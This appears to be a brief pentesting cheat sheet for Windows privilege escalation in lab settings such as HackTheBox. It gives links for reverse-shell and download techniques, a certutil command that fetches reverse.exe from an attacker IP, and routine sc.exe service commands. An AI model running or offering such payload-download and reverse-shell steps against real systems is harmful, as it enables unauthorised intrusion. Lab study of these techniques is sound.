 # Privilege escalation

https://guif.re/windowseop#Windows%20version%20map

# ASPX File upload -> Download nc.exe and take reverse shell

https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c


## Powershell script to download exe from the kali machine (From Cmd)

https://www.absolomb.com/2017-12-29-HackTheBox-Arctic-Writeup/


## Download files from kali machine using certutil

certutil.exe -urlcache -split -f http://10.10.14.33:8888/reverse.exe reverse.exe

## Windows service commands

Query the configuration of a service

```
> sc.exe qc <name>
```

Query the current status of a service

```
> sc.exe query <name>
```

Modify configuraton  option of a service

```
> sc.exe config <name> <option>= <value>
```

Start/Stop a service

```
> net start/stop <name>
```

```
